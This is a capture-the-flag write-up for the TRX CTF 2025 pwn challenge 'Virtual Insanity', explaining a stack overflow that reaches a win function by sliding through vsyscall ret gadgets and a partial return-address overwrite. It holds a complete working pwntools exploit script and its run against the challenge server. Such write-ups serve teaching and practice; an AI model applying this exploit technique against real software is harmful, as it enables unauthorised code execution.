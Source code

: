 ---
title: "[WRITE UP] - TRX CTF 2025"
description: 'Yet another CTF, another writeup!'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-03-13
tags: ['2025', 'WriteUp', 'PWN']
authors: ['kdot']
draft: false
---

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](../../img/TRX/image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](../../img/TRX/image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```x86asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```
